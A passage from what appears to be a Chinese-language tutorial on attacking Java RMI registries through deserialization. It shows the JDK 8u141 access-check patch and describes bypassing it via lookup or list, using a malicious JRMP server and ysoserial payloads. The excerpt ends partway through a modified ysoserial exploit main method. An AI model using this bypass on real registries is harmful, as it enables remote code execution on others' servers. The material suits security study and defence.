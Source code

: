 而且这个异常很熟悉，在我们使用bind、rebind打register时也会出现，但是前面分析过这个异常并不会对我们的攻击产生影响，为什么jdk8u141后会发生变化呢，我们查看jdk8u141下的相关代码：

```java
// RegistryImpl_Skel#dispatch
// ......
// bind
switch (var3) {
    case 0:
        // 新增代码
        RegistryImpl.checkAccess("Registry.bind");

        try {
            var9 = var2.getInputStream();
            var7 = (String)var9.readObject();
            var80 = (Remote)var9.readObject();
        } catch (ClassNotFoundException | IOException var77) {
            throw new UnmarshalException("error unmarshalling arguments", var77);
        } finally {
            var2.releaseInputStream();
        }

        var6.bind(var7, var80);

        try {
            var2.getResultStream(true);
            break;
        } catch (IOException var76) {
            throw new MarshalException("error marshalling return", var76);
        }
// ......
```

发现与之前的代码相比，register侧对应bind、rebind和unbind**在反序列化之前**进行了IP检查，防止非本地server对register进行bind、rebind和unbind操作。

对于这个修复的绕过方式也很简单，由于这里的修复不涉及lookup和list方法，所以我们通过lookup或list攻击即可

##### 通过lookup绕过修复攻击

结合之前lookup攻击register和绕过JEP290：

* 开启恶意的JRMP服务器

* 将之前通过lookup攻击的恶意对象更换为ysoserial.payloads.JRMPClient，连接我们的恶意服务器

##### 使用ysoserial进行攻击

新增一个lookup方法，略微修改exploit和main方法

```java
public static void main(final String[] args) throws Exception {
    // 修改参数处理，可以选择lookup和bind进行攻击
    final String RMIMethod = args[0];
    final String host = args[1];
    final int port = Integer.parseInt(args[2]);
    final String command = args[4];
    Registry registry = LocateRegistry.getRegistry(host, port);
    final String className = CommonsCollections1.class.getPackage().getName() +  "." + args[3];
    final Class<? extends ObjectPayload> payloadClass = (Class<? extends ObjectPayload>) Class.forName(className);

    // test RMI registry connection and upgrade to SSL connection on fail
    try {
        registry.list();
    } catch(ConnectIOException ex) {
        registry = LocateRegistry.getRegistry(host, port, new RMISSLClientSocketFactory());
    }
```